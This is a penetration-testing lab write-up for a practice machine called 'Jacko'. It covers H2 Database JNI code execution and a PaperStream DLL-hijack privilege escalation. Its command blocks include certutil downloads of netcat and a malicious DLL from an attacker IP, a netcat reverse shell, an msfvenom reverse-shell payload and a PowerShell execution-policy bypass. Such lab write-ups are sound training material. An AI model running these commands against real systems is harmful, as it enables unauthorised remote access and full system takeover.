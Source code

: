 ```yaml
---
description: Elevated privileges using a DLL hijacking attack
---
```


# Jacko

## Summary

* A vulnerable version of H2 Database was hosted on the machine vulnerable to JNI Code Execution.
* Leveraged code injection to get a reverse shell on the box
* Using winPEAS, found DLL hijack vulnerability resulting in priv escalation in PaperStream service.
* Leraved this vulnerability to gain elevated shell on the box.

## Let's Unpack

### Enumeration

```bash
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.216.66
>

Nmap scan report for 192.168.216.66
Host is up (0.088s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

An older version of H2 database was hosted on port 8082, which was vulnerable to JNI code injection.

### Initial Foothold

We can use the following exploit to get a reverse shell in the box.

{% embed url="https://www.exploit-db.com/exploits/49384" %}

```bash
# Write native library, copy from above link

# Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

# Execute Code Injection
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');

# upload netcat
certutil -urlcache -f http://192.168.45.177:8000/nc64.exe C:/windows/Temp/nc64.exe

# Replace following payload with whoami to get a reverse shell
C:/windows/Temp/nc64.exe 192.168.45.177 4444 -e cmd

# Catch the reverse shell
nc -nlvp 4444

# Got first flag!
            
```

<details>

<summary>Got stuck here <span data-gb-custom-inline data-tag="emoji" data-code="1f625">😥</span></summary>

I was unable to upload the nc.exe on the same directory, on looking to the walkthrough, I understood that if payload cannot be saved in the same directory, then always save in C:\windows\Temp\nc.exe! Silly mistake I know :sweat\_smile:

</details>

### Privilege escalation

None of the cmd commands, like Whoami, systeminfo, etc., were usable. So, the cmd prompt was fixed by running the following command.

```powershell
# We must fix our PATH variable to execute some common commands.
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

Using winPEAS, we found a vulnerable version of PaperStream installed in the system that can be used to gain elevated privileges using a DLL hijacking attack.

Exploit used -> [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

```powershell
# created a malicious DLL using msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.177 LPORT=9999 -f dll > exploit.dll

# uploaded the DLL to the windows /temp directory
certutil -urlcache -f http://192.168.45.177:8000/exploit.dll C:/temp/exploit.dll

# uploaded the ps1 payload into the same directory
certutil -urlcache -f http://192.168.45.177:8000/exploit.ps1 C:/temp/exploit.ps1

# Executing the exploit
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass 
C:\temp\exploit.ps1

# started a nc listener to catch the reverse shell with room priv
nc -nlvp 7777


# BOOM! Got the admin priv
```



















